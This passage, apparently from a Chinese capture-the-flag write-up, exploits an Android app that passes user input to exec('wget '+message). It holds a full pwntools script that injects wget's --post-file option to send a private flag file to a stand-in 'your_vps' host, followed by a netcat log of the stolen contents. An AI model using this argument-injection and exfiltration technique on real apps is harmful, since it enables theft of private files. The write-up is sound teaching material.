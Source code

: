 所以大概知道这题让我们干啥了，就是向远程的APK，即212.64.66.177的8080端口，发送一段包含message和check字段的json数据，check根据连接上时的随机数为秘钥计算message的hmac，利用exec("wget "+message)，获得远程应用私有目录的flag，即`/data/data/com.xuanxuan.getflag/files/flag`



### 利用

因为题目是用的`Runtime.getRuntime().exec("wget"+arg4)`这种方式执行命令，这种里面传字符串的方式是无法通过shell的一些特殊符号进行命令拼接的，原因：[Java Runtime.getRuntime().exec由表及里](https://xz.aliyun.com/t/7046)，所以我们只能通过wget这个程序本身来获得flag，那wget有没有能带出文件的请求参数呢？我们在本地的wget的帮助里看到：

```bash
--post-file=文件            发送 <文件> 内容
```

可以看到这项并没有在过滤的黑名单里，但是我们的手机上是否有wget程序呢？就算有wget，手机上的有这个选项么？应该是没有的，但是我们还是要尝试一下远程的。我们构造如下message：

```bash
--post-file /data/data/com.xuanxuan.getflag/files/flag
```

然后根据开始的随机数计算校验码：

```python
import hmac
from hashlib import sha1
from pwn import *
context(log_level='debug')

io=remote("212.64.66.177",8080)
key = io.recvline().strip()
mac  = hmac.new(key,digestmod=sha1)
payload = "--post-file /data/data/com.xuanxuan.getflag/files/flag http://your_vps:8888"
mac.update(payload)
result  = mac.digest().encode("hex")
io.sendline('{"message":"'+payload+'","check":"'+result+'"}')
io.interactive()
```

然后我们在自己的服务器上监听相应端口，即可收到FLAG

```bash
root@iZt4ne4674vayregeopblsZ:~# nc -l 8888
POST / HTTP/1.1
User-Agent: Wget/1.20.3 (linux-androideabi)
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

flag{this_wget_is_from_termux_and_I_move_some_dynamic_lib_to_systemlib_to_run_it}
```

根据flag的内容知道了，题目作者是换了手机上的wget才完成此题。另外app中的java代码执行`Runtime.getRuntime().exec()`的工作路径是根目录，而不是私有目录。

### 总结
